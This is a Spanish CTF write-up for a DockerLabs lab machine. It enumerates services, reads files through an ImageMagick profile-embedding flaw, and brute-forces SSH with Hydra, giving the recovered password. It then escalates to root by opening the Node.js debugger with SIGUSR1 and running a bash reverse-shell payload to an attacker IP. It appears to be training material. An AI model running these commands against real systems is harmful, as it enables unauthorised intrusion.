








Este desafío de ciberseguridad, disponible en <a target="_blank" href="https://dockerlabs.es">DockerLabs</a> (El Pingüino de Mario), guía a los participantes a través de una intrusión en un servidor. El proceso implica la enumeración de servicios, la explotación de una vulnerabilidad de LFI, el acceso a SSH mediante fuerza bruta y la escalada de privilegios a través de un proceso de node.js para lograr acceso root.

## Tabla de contenido 

## Enumeración

```bash
nmap -p- 172.17.0.2 -n -P
```


```bash
nmap -p22,80,443 -sVC -n -Pn 172.17.0.2
```


Visitamos el sitio web en los puertos 80 y 443, y aparece la misma página. Parece ser una herramienta donde podemos seleccionar una imagen y las diferentes versiones de tamaño que queremos para la imagen.


Al enviar el formulario con una imagen y diferentes versiones, las muestra en una página.


Hacemos un poco de fuzzing en el servicio web utilizando gobuster.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/ -x py,php,txt,db,htm,html,back -t 50 -k
```

Encontramos el clásico info.php, con información de PHP.


En `/info.php`, encontramos un montón de extensiones PHP instaladas y una versión de PHP un poco desactualizada `PHP Version 7.2.24-0ubuntu0.18.04.3`.

También vemos que los módulos `GD` y `Image Magick` están instalados, lo que puede utilizarse para el servicio de transformación de imágenes.

## Intrusión

Es probable que existan diferentes maneras de realizar la intrusión; en este caso, optamos por una posible LFI (creo que esto sería LFI, pero no estoy seguro) que ocurre durante la transformación de ImageMagick.

Más información en:

- https://imagetragick.com/
- https://www.hackplayers.com/2023/02/imagemagick-la-vulnerabilidad-oculta.html

### LFI

Siguiendo las instrucciones de hackplayers, instalamos las dependencias necesarias:

```bash
sudo apt install pngcrush imagemagick exiftool exiv2 -y
```

Usamos un PNG y añadimos el campo de perfil con la ruta que queremos inyectar. Esto creará el archivo pngout.png.


Verificamos que se haya añadido correctamente.

```bash
exiv2 -pS pngout.png
```



Ahora usamos la imagen pngout.png en el servicio web, seleccionamos un tamaño y hacemos clic en "Resize".


Aparecen las dos imágenes, hacemos clic derecho en una y la descargamos en nuestro Kali, nombrándola resultado.png.


Verificamos si los datos se han filtrado en el perfil.

```bash
identify -verbose resultado.png
```


Parece que los datos se filtraron correctamente. Copiamos todos los bytes hexadecimales del perfil y los ponemos en una sola línea. Luego, los incluimos en el siguiente Python:

```bash
python3 -c 'print(bytes.fromhex("BYTES_IN_HEX").decode("utf-8"))'
```

Y el resultado:



Genial, ahora tenemos un LFI, y podemos ver que hay un usuario llamado `lenam` y otro llamado `application`.

### Fuerza Bruta SSH

Si intentamos buscar otros archivos interesantes, no encontramos nada. Intentamos un ataque de fuerza bruta con el usuario `lenam` utilizando Hydra.

```bash
hydra 172.17.0.2 ssh -t 64 -l lenam -P /usr/share/wordlists/rockyou.txt -f -vV
```

Con un poco de paciencia, encontramos la contraseña SSH para el usuario lenam.



## Escalada de Privilegios

Accedemos vía SSH utilizando el usuario `lenam` y la contraseña `loverboy`.



Vemos que podemos ejecutar el comando `/bin/kill` como root con la contraseña de lenam.

También observamos los procesos que está ejecutando root y vemos que se está ejecutando un proceso de node.js.

```bash
ps aux | grep root
```



Verificamos si hay puertos locales abiertos y encontramos los puertos 8000 y 9000.

```bash
netstat -ano | grep LISTEN
```


El puerto 8000 parece ser una aplicación node.js.

```bash
curl 127.0.0.1:8000
```



Como podemos matar cualquier proceso, intentamos abrir el depurador de node.js enviando una señal `SIGUSR1` al proceso de node.js. Esto debería reiniciar la aplicación node.js con el puerto de depuración abierto (por defecto, el puerto 9229) y accesible a través de websockets.

Más información:

- https://nodejs.org/en/learn/getting-started/debugging
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse#starting-inspector-in-running-processes

Para obtener el PID del proceso de node.js:

```bash
ps aux | grep node | grep root | awk '{print $2}'
```

El comando completo:

```bash
sudo /bin/kill -s SIGUSR1 $(ps aux | grep node | grep root | awk '{print $2}')
```

Verificamos si el puerto de depuración e inspección 9229 ahora está abierto.


¡Bingo! Funcionó. Ahora ingresamos a la aplicación node.js con el inspector.

```bash
node inspect 127.0.0.1:9229
```



Escuchamos con netcat.

```bash
nc -lvnp 5000
```

Y ejecutamos la siguiente carga útil en la consola de depuración, reemplazando la IP 10.0.2.15 con la tuya.

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/10.0.2.15/5000 0>&1\"')")
```



Felicidades, ahora somos root.
